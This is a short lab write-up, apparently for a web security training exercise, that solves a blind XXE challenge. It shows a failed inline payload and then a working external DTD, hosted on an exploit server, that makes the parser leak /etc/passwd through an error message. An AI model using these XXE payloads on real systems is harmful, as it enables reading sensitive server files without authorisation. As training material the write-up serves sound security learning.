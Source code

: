 # Lab: Exploiting blind XXE to retrieve data via error messages

Description :  This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Analysis:

- First try :

using this direct payload didn't work

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lol [
<!ENTITY % desired SYSTEM "file:///etc/passwd" >
<!ENTITY % raise SYSTEM "file:///DUK33D/%desired;" >
%raise;
]
>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

-> "XML parser exited with error: java.lang.IllegalArgumentException: Error decoding percent encoded characters"

- by hosting this remote DTD

```XML
<!ENTITY % desired SYSTEM "file:///etc/passwd" >
<!ENTITY % parent "<!ENTITY &#x25; son SYSTEM 'file:///DUK33D/%desired;'>" > 
%parent;
%son;
```

and invoking it using

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lol [
<!ENTITY % raising SYSTEM "https://exploit-0a19007503299dec812d3d4201c600e7.exploit-server.net/exploit">
%raising;
]

>
```

all done
